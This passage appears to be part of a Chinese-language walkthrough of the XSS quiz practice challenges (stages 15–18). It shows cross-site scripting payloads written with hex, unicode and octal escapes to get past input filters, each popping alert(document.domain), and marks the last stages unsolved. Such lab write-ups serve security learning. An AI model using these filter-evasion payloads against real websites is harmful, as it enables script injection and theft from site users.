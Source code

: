 Hexadecimal

```javascript
\\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e
```

**Unicode**好像也可以！

>`\u` 加 4个16进制字符表示一个字符的编码

```javascript
\\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
```

# 十六关

>http://xss-quiz.int21h.jp/stage00000016.php?sid=0f20ae30108832c1a7f8aa65d59214523f03a73d

过滤了十六进制，我们还有八进制和unicode

```javascript
\\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e

\\74script\\76alert(document.domain);\\74/script\\76
```


## 第十七十八（UNSOLVED）

>需要配合IE6即以下浏览器解决！
